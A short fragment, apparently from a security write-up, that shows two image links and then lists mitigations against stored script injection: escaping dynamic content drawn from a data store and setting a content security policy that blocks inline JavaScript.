    

    


Mitigations:
- Escape all dynamic content coming from a data store, so the browser knows it is to be treated as the contents of HTML tags, as opposed to raw HTML. 
- Set a content security policy in the response header, so you can tell the browser to never execute inline JavaScript, and to lock down which domains can host JavaScript for a page. 


